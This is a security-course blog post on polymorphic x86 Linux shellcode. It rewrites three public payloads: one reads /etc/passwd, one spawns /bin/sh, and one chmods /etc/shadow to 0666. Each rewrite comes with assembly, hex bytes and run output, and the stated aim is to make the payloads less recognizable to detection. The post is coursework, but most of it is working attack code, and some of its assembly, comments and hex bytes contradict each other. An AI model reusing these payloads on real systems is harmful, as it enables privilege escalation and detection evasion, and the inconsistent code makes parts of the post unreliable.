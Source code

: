 ```yaml
---
layout: post
title: SLAE 0x6 - Polymorphism
categories: infosec
---
```


![x86 Assembly Language and Shellcoding on Linux]({{"/content/posts/slae.png" | absolute_url }}){: .center}

This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](https://www.pentesteracademy.com/course?id=3).

Student ID: PA-7449

# Goal

The goal of this assignment is to demonstrate polymorphism by modifying three existing shellcode from [shell-storm.org](http://shell-storm.org/shellcode/) without increasing the shellcode size by 50%.

# Methods

I used radare2 with Cutter for disassembly.

# readpasswd 

This shellcode from *Geyslan* reads 4096 bytes from /etc/passwd and prints it out on the screen. [Original shellcode](http://shell-storm.org/shellcode/files/shellcode-842.php).

For my basic assembly skills, the code looks elegant with little room for optimalization. Thanks to the relocatable and alternative instructions, we can modify the shellcode without expanding the original length of 51 bytes.

    xor  ecx, ecx
    mul  ecx
    mov  al, 5
    push ecx
    push 0x64777373 ; 'sswd'
    push 0x61702f63 ; 'c/pa'
    push 0x74652f2f ; '//et'
    mov  ebx, esp
    int  0x80
    xchg eax, ebx
    xchg eax, ecx
    mov  al, 3
    xor  edx, edx
    mov  dx, 0xfff
    inc  edx
    int  0x80
    xchg eax, edx
    xor  eax, eax
    mov  al, 4
    mov  bl, 1
    int  0x80
    xchg eax, ebx
    int  0x80

    fuzboxz@napalm:~/Learning/SLAE$ ./_shellskeleton
    Shellcode Lenth: 51
	
The first thing that's easy to do is replace all the xor register, register instructions with sub. The effect of this instruction for our purposes is the same, but makes the original shellcode less recognizable.

Another trick to spice up things is to rearrange the slash padding in the command string. It's a small change, but makes the payload a bit different. 

One more trick to save some space and change the shellcode a bit is to leave out the graceful SYS_EXIT syscall. While this makes the program exit with SEGFAULT, the payload still executes and we save 3 bytes, lowering the original size of 51 to 48 bytes.

    ; different null instruction
    sub  ecx, ecx
    mul  ecx
    push ecx

    ; command slash padding reorganized
    push 0x64777373 ; 'sswd'
    push 0x61702f2f ; '//pa'
    push 0x6374652f ; '/etc'
    mov  ebx, esp
    ; rearanged order of instructions
    mov  al, 5
    int  0x80 ; SYS_OPEN

    xchg eax, ebx
    xchg eax, ecx
    mov  al, 3

    ; different null instruction
    sub  edx, edx
    mov  dx, 0xfff
    inc  edx
    int  0x80 ; SYS_READ

    xchg eax, edx
    ; different null instruction
    sub  eax, eax
    mov  bl, 1
    mov  al, 4
    int  0x80 ; SYS_WRITE

    ; Shellcode executes without SYS_EXIT 
    ;xchg eax, ebx
    ;int  0x80 

    fuzboxz@napalm:~/Learning/SLAE$ ./_shellskeleton
    Shellcode Lenth: 48

# execve /bin/sh

A featherweight local /bin/sh shellcode from *ipv* at 21 bytes. [Original shellcode](http://shell-storm.org/shellcode/files/shellcode-575.php).

	int main(){
	 
	char sc[] = "\x6a\x0b" // push byte +0xb
	"\x58" // pop eax
	"\x99" // cdq
	"\x52" // push edx
	"\x68\x2f\x2f\x73\x68" // push dword 0x68732f2f
	"\x68\x2f\x62\x69\x6e" // push dword 0x6e69922f
	"\x89\xe3" // mov ebx, esp
	"\x31\xc9" // xor ecx, ecx
	"\xcd\x80"; // int 0x80
	 
	((void (*)()) sc)();
	}
	 
	/*
	sc[] = "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"
	*/
	
To obfuscate the shellcode we can expand some of the instructions so they seem different compared to the original shellcode. First I used different method for nulling out registers, I xor'd eax and moved it's value into the other registers. After that, I used mov instead of push-pop for the execve syscall. The name of the command has also been modified.

    xor eax,eax ; null out eax
    mov edx, eax ; null out edx
    mov al, 0xb ; 11 execve syscall
    mov ecx, eax ; null out ecx
    push edx  ; push null to stack
    push 0x683f2f2f ; "//?h"
    push 0x6e3f3f2f ; "/??n"
    mov ebx, esp ; stores executable path in ebx
    int 0x80 ; init syscall

After compiling and linking we get the following shellcode at 23 bytes:
    "\x31\xc0\x89\xc2\xb0\x0b\x89\xd1\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xcd\x80"

    slae@slae: ~/SLAE$ ./polyexecve
    Shellcode Length: 23


# chmod /etc/shadow
Simple shellcode by *Kris Katterjohn* that modifies the /etc/shadow permissions to 0666 enabling all users to edit and modify the shadow file. [Original shellcode](http://shell-storm.org/shellcode/files/shellcode-210.php).

    section .text
            global _start
       _start:
         xor edx, edx
         push byte 15
         pop eax
         push edx
         push byte 0x77
         push word 0x6f64
         push 0x6168732f
         push 0x6374652f
         mov ebx, esp
         push word 0666Q
         pop ecx
         int 0x80
         push byte 1
         pop eax
         int 0x80

    slae@slae:~/SLAE$ ./orichmod
    Shellcode Length: 36
	
	section .text

As the shellcode is rather simple, there is limited amount of changes that can be done to make the code more sneaky. First I changed the syscall number to 16 and I decrease it back to 15. The numbers are arbitrary and with math wizardry one might modify it so it looks like an exit syscall instead of a chmod or chown, but for Proof-of-Concept, this is perfectly sufficient. I also changed some of the nulls, so they are less recognizable: I used *cdq* to null out the EDX register and instead of pushing and poping 1 on the stack, I xor out EAX and increment it's value by one for the exit syscall.

	global _start

	_start:

		push byte 16
		pop eax
		sub eax, 1
		cdq

		push byte 0x77
		push word 0x6f64
		push 0x6168732f
		push 0x6374652f
		mov ebx, esp
		push word 0666Q
		mov ecx, edx
		pop ecx
		int 0x80

		xor eax,eax
		add eax, 1	
		int 0x80
	
	
	"\x6a\x10\x58\x83\xe8\x01\x99\x6a\x77\x66\x68\x64\x6f\x68\x2f\x73\x68\x61\x68\x2f\x65\x74\x63\x89\xe3\x66\x68\xb6\x01\x89\xd1\x59\xcd\x80\x31\xc0\x83\xc0\x01\xcd\x80"
    
	slae@slae:~/SLAE$ ./polychmod
    Shellcode Length: 41
	
These small changes made the shellcode less recognizable and only incremented the shellcode size by 13.8%. It would also be possible to remove the exit syscall as well to gain a few more bytes.

# Final Thoughts

I didn't enjoy this assignment, that's is why it took me almost a month to finish it. At the end of the day rewriting someone else's shellcode is an awesome skill to possess, but I don't plan to use it a lot. 

Again, all the code is on my [Github](https://github.com/fuzboxz/SLAE) and if you want to be informed about new posts, just follow me on Twitter at [@fuzboxz](https://twitter.com/fuzboxz).